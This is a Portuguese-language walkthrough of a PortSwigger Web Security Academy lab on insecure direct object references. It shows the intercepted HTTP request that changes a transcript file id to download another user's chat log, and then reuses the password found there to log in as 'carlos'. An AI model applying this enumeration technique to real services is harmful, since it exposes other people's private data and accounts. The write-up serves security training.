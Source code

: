 Ao clicar no botão, percebemos que o arquivo baixado possui apenas um número como seu nome e que ao clicar mais vezes no botão, o número do arquivo aumenta.

Porém, percebe-se também que o número do arquivo começa com o valor `2`, então, iremos alterar o valor do parâmetro `id` para `1` e fazer o download do arquivo.

Para isso, iremos interceptar a requisição através do `Burp Suite`.

```http

GET /download-transcript/1.txt HTTP/1.1
Host: 0aa9009b046cae72c0f4ae830093008d.web-security-academy.net
Cookie: session=sL1jCDaQR5CygCsTKM38T0OmxQpvNOLy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0aa9009b046cae72c0f4ae830093008d.web-security-academy.net/chat
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

Com base na requisição acima percebemos que o caminho em que ele busca os arquivos é `/download-transcript/`, então basta solicitar o arquivo `1.txt` para que ele faça o download do arquivo.

E o conteúdo do arquivo é o seguinte:

``` txt

CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
Hal Pline: Takes one to know one
You: Ok so my password is wn9y5k7iwyheruy50gdd. Is that right?
Hal Pline: Yes it is!
You: Ok thanks, bye!
Hal Pline: Do one!


```

No arquivo, podemos ver que o usuário `carlos` esqueceu sua senha e pediu para o `Hal Pline` confirmar se a senha que ele havia digitado `wn9y5k7iwyheruy50gdd` estava correta.

Agora basta logar com as credenciais `carlos:wn9y5k7iwyheruy50gdd` para concluir o laboratório.

![concluido](idor_concluido.png)

---
